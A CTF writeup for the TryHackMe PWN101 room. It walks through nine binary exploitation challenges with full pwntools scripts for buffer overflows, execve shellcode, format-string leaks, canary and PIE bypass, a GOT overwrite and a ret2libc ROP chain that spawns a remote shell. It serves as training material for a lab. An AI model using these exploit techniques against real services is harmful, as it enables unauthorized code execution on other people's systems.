

# Pwn101 - TryHackMe CTF Writeup

CTF link: 

[PWN101 - TryHackMe](https://tryhackme.com/room/pwn101)

This medium level CTF covers these topics: 

- Buffer overflow
- Modify variable's value
- Return to win
- Return to shellcode
- Integer Overflow
- Format string exploit
- Bypassing mitigations
- GOT overwrite
- Return to PLT
- Playing with ROP

## Tools

- Python2.7 (not python3 or higher)
- Pwntools
- GDB (I am using pwndgb check ‣)
- Radare2
- IDA

# Challenge 1 - pwn101

When we execute given file which will be working on given ip’s port 9001 waits an input.

<p align="center">  </p>

We check gdb,  we see “$rbp-4” already set 0x539 and there checks its value. If we couldn’t change the value of “$rbp-4” program doesn’t jump to system call. We want this program jumps system call and give us “/bin/bash”. So we have to overwrite “$rbp-4” and change it to another value. “A” is good.

<p align="center">  </p>

<p align="center">  </p>

Then we do the same on server.

```bash
python -c ‘print ("A"*100)’
```

<p align="center">  </p>

# Challenge 2 - pwn102

When we execute given file which will be working on given ip’s port 9002 waits an input.

<p align="center">  </p>

We check gdb and see these two cmp processes, they compare datas already set on the beggining of dump.  If we couldn’t change the value of “$rbp-4” and “$rbp-8” program doesn’t jump to system call. We want this program jumps system call and give us “/bin/bash”. So we should overwrite rbp and change “$rbp-4” to “0x0ff33” and “$rbp-8” to “0xc0d3”.

<p align="center">  </p>

First we should see which char overflows buffer and overwrites onto rbp. We can create a string with cyclic and give it to program while we controlling processes with gdb. To do this we should create a breakpoint at first cmp.

```bash
cyclic 200
```

<p align="center">  </p>

We let run the program and gives cyclic output as input. When program hits our breakpoint we check the value of “$rbp-4”.

```nasm
x/s $rbp-4
```

```bash
cyclic -l caab
```

<p align="center">  </p>

We can understand this 108 char will fill the buffer and overwrite “$rbp-4”. But $rbp-8?

```nasm
$rbp - 4 = 108
$rbp - 8 = 104
```

So our exploit is gonna be:

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
        if args.REMOTE: # Runs on remote server, usage "python2.7 code.py REMOTE ip port"
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        else: # Runs locally, usage "python2.7 code.py"
                return process([exe] + argv, *a, **kw)

exploit  = b''
exploit += b"\x90"*104 # we fill the buffer 
exploit += pack("<I", 0xc0d3) # we overwrite $rbp-8
exploit += pack("<I", 0xc0ff33) # we overwrite $rbp-4

#If you want to see what we wrote uncomment next two lines
#f = open("input.txt", "wb")
#f.write(exploit)

io = start()
io.sendline(exploit)
io.interactive()
```

We execute our python code locally and check if it works.

```bash
python2.7 code.py
```

<p align="center">  </p>

It works, now try it on the remote server.

```bash
python2.7 code.py REMOTE ip port
```

<p align="center">  </p>

# Challenge 3 - pwn103

When we execute given file which will be working on given ip’s port 9002 runs a interfice like discord server.

<p align="center">  </p>

We check what functions included in this program with gdb and see there is a admins_only function with system call which is we looking for.

```bash
info functions
```

<p align="center">  </p>

<p align="center">  </p>

When we create a string with cyclic and try to inflate buffer we see 40 char is enough. Then we write our admins_only’s adress and try to exploit. It works on local but without this command line it does not work on remote server: “exploit  += p64(0x401016)”

Why? Because of MOVAPS issue. Check this writeup section to understand this. 

[DEF CON CTF Qualifier 2015: r0pbaby write-up - Peilin Ye's blog](https://ypl.coffee/r0pbaby/#section5)

To fix MOVAPS issue we have to write like this  

> “ret retgadget admins_only”
> 

instead of 

> “ret admins_only”
> 

Because MOVAPS issue you should find ret’s address from 

```bash
objdump -d ./pwn103.pwn103
```

<p align="center">  </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

elf = ELF('./pwn103.pwn103')

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([elf] + argv, *a, **kw)

io = start()

exploit  = b''
exploit  += b"\x90"*40
#exploit  += pack("<I", 0x401016)
#exploit  += pack("<I", 0x0000000000401554)

exploit  += p64(0x401016)
exploit  += p64(elf.symbols['admins_only'])

print(io.recv().decode('utf-8'))
io.sendline('3')
print(io.recv().decode('utf-8'))
io.sendlineafter(b"[pwner]:",exploit)
print(io.recv().decode('utf-8'))

io.interactive()
```

<p align="center">  </p>

# Challenge 4 - pwn104

When we execute given file which will be working on given ip’s port 9004 waits an input.

<p align="center">  </p>

What is this? We should check ghidra to understand what happens here. Probably buffer overflow. Also when we look at “checksec pwn104.pwn104” we see NX disabled.

### No eXecute (NX Bit)

The No eXecute or the NX bit (also known as Data Execution Prevention or DEP) marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.

> source: [https://ctf101.org/binary-exploitation/no-execute/](https://ctf101.org/binary-exploitation/no-execute/)
> 

<p align="center">  </p>

<p align="center">  </p>

80 byte allocated for local_58 but at the end of the decompiled code we see that read function takes 200 byte. This gives us exploitation advantage: **buffer overflow**

When we consider that NX is disabled we can execute a shell code with buffer overflow.

We find how much character infilate the buffer. Then we write the exploit.

<p align="center">  </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn104.pwn104'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

# check exploit-db for shellcode https://www.exploit-db.com/exploits/46907
shellcode  = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

io = start()
io.recvuntil(b'at ') #program gives us buffer location, we skip till that part
address = io.recvline() 
bufferLocation = p64(int(address, 16))

exploit  = b''
exploit += shellcode
exploit  += b"\x90"*(88-len(shellcode))
exploit += bufferLocation

io.sendline(exploit)

io.interactive()
```

<p align="center">  </p>

# Challenge 5 - pwn105

<p align="center">  </p>

<p align="center">  </p>

After some tries we got the shell

<p align="center">  </p>

You can say you tried something and find the correct numbers. It is true but I know that simple integer overflow can be done here as we know interger has range (-2,147,483,647 to 2,147,483,647) if we give the highest value and add something to it, the sum will go to the opposite side that is negative one. 2,147,483,647 is 01111111111111111111111111111111 and it's the biggest positive number that will fit in 32 bits when using the "two's complement" notation. So when we add 1 number becomes negative.

<p align="center">  </p>

<p align="center">  </p>

# Challenge 6 - pwn106

<p align="center">  </p>

We check gdb,r2 and cutter. We are looking for system call or hidden flag in stack. After wasting time with gdb and r2, cutter gives us what we want.

<p align="center">  </p>

We see that there is redacted flag there and there is a format string vulnerability. Program takes input and directly, without controlling print it back. Here is programmer doesn’t specify format specifier we can provide our own format specifier to leak values from the stack.

<p align="center">  </p>

Some brute force actions we found right order of hex codes and reverse unhexed values and get the flag.

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn106user.pwn106-user'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

payload = b"%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

io = start()
io.recv()
io.recv()
io.sendline(payload)
output = io.recv().strip().split(b" ")[1].split(b".")
flag = ""
for word in output:
    decoded = unhex(word.decode("utf-8"))
    reverse_decoded = decoded[::-1]
    print(str(reverse_decoded.decode("utf-8")), end ="")
```

<p align="center">  </p>

# Challenge 7 - pwn107

<p align="center">  </p>

<p align="center">  </p>

We see that stack canary is found, No eXecute bit enabled and also PIE is enabled. This means we have to careful about buffer overflowing and when we want to find the addresses we can not do it staticly. What I mean is we have to leak stack canary data and dynamic base address of library.

<p align="center">  </p>

We see that canary stack protection is enabled. We have format string vulnerability, so we can leak datas on stack where return address and stack value already written. So we gonna leak canary value and bypass canary protection. But how we know where is the canary value? We check radare2:

```python
r2 pwn107.pwn107
aaa
afl
pdf @ main
```

<p align="center">  </p>

As we can see canary value stored at @ rbp-0x8

We gonna put 2 breakpoints to vulnerable function and next one to see what is actually printing. After that we gonna run program and check the stack.

<p align="center">  </p>

We know that rbp-0x8 is canary value so we print stack.

```python
pxr @ rsp
```

<p align="center">  </p>

We can not copy and use canary value we found because this value changes dynamicly, we gonna leak this value. So we have to detect canary value’s location. Our canary value is located at input+7.

Also we need libc library location to detect base address of library. Offset doesn’t change, so when we get the dynamic location of libc and static location of libc we can find base address of library. And when we got the base address, we can add the static offset of get_streak function and calculate the dynamic location of get_streak function.

```python
dynamic_libc - static_libc = base address
base address + static_get_streak = dynamic_get_streak
```

We have to use these range of libc addresses because our libc function should return to the binary itself.

<p align="center">  </p>

We found it. Our static libc location is at input+4.

<p align="center">  </p>

Now we gonna leak input’s location and write the exploit. We are looking for 41 values in leaked datas.

<p align="center">  </p>

<p align="center">  </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn107.pwn107'
binary = context.binary = ELF(exe,checksec=False)
static_libc_address = binary.symbols.__libc_csu_init

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()
io.recvuntil(b"streak?")

#input location = %6$p
#libc location = input+4 = %10$p
#canary location = input+7 = %13$p
payload = b""
payload += b"%10$p.%13$p" #here we leak 

io.sendline(payload)

io.recvuntil(b"streak:")

output = io.recv().split(b"\n")[0]

dynamic_libc_address = int(output.split(b".")[0].strip(), 16)
canary = int(output.split(b".")[1].strip(), 16)

dynamic_base_address = dynamic_libc_address-static_libc_address
binary.address = dynamic_base_address

dynamic_get_streak = binary.symbols.get_streak
rop = ROP(binary)
ret_gadget = rop.find_gadget(['ret'])[0]

payload = b""
payload += b"\x90" * 0x18+ p64(canary) + b"\x90"*8 + p64(ret_gadget) + p64(dynamic_get_streak)
io.sendline(payload)
io.interactive()
```

<p align="center">  </p>

We got it (locally), then try it on remote server (fingers crossed). And got it.

<p align="center">  </p>

# Challenge 8 - pwn108

<p align="center">  </p>

Here we see format string vulnerability.

<p align="center">  </p>

Using a format string we overwrite the GOT (Global Offset Table) on a non-PIE binary.

We replace the address of puts() in the GOT with the address of the hidden function holidays().

1. We inject in the first buffer the address of puts() in the GOT
2. We use %<int>s  to make printf()  print <address of holidays()> bytes.
3. With %6$lln we overwrite the address of puts() in the GOT with the address of holidays(). We know the latter because the binary is not a PIE.
    - %6$lln writes the number of bytes written so far for the format string in the variable pointed by the positional parameter. 6 is for using the address stored in the first buffer, which points to puts() in the GOT
    

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn108.pwn108'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

puts_got = binary.got['puts']
holiday = binary.symbols['holidays']

io.recvuntil(b"name]: ")
io.sendline(p64(puts_got))

io.recvuntil(b"No]: ")
io.sendline(b"%" + str(holiday).encode("utf-8") + b"s%6$lln")

io.interactive()
```

<p align="center">  </p>

# Challenge 9 - pwn109

<p align="center">  </p>

No PIE and no stack canary good news. We can not execute shell with shellcode because NX is enabled. 

<p align="center">  </p>

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

<p align="center">  </p>

<p align="center">  </p>

We have only one shot, it should be the head-shot, right? No not right, we can manipulate it to get more shots. ROP chain is our friend which gives us one more chance. We gonna follow this way:

> ret → pop rdi ; ret → leak put’s address → print leaked address → call main again
> 

We need to know “ret” (normally we don’t need to specify another ret but MOVAPS issue…) and “pop rdi” gadget’s locations. We can check them with ROPgadget and grep.

```python
ROPgadget --binary pwn109.pwn109 | grep "ret"
ROPgadget --binary pwn109.pwn109 | grep "pop rdi ; ret"
```

<p align="center">  </p>

<p align="center">  </p>

We can write the exploit but there are custom characters and we need to know their hex values. Because we gonna use them in io.recvuntil(). With these lines of code we found hex value of that emoji.

<p align="center">  </p>

There is a problem about libc. We exploit this binary in local with our libc but target machine runs different libc. We need to know which libc version the target uses but we can not ask the target machine “Hey, which libc version do you use”. We have to make a guess thanks to this website:

[libc database search](https://libc.nullbyte.cat/)

<p align="center">  </p>

<p align="center">  </p>

We gonna download this libc and use it. We write our exploit and done.

```python
import sys
from pwn import *
from struct import *

exe = './pwn109.pwn109'
binary = context.binary = ELF(exe,checksec=False)

libc = ELF("libc6_2.27-3ubuntu1.4_amd64.so")
# libc = binary.libc # use it locally

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

io = start()

RET = 0x40101a   # for stack alignment
POP_RDI = 0x4012a3

exploit = b""
exploit += b"\x90"*40
exploit += p64(RET)
exploit += p64(POP_RDI)

exploit += p64(binary.got['puts'])  # the address of got puts is the parameter
exploit += p64(binary.plt['puts'])  # call puts via plt
exploit += p64(binary.sym['main'])  # return address (will be popped into eip when printf returns)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
data = io.recvline()
io.sendline(exploit)

puts_leak = u64(io.recv(6) + b'\x00\x00')

# log.success(f'LIBC base: {hex(puts_leak)}') # uncomment this to detect target's libc version

libc.address = puts_leak - libc.sym['puts'] # comment this when you try to find libc version
log.success(f'LIBC base: {hex(libc.address)}') # comment this when you try to find libc version

rop = ROP(libc)
rop.call(rop.ret)     # Stack align with extra 'ret' to deal with movaps issue
rop.system(next(libc.search(b'/bin/sh')), 0, 0)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
io.recvline()
io.sendline(b'\x90'*40 + rop.chain())

io.clean()
io.interactive()
```

<p align="center">  </p>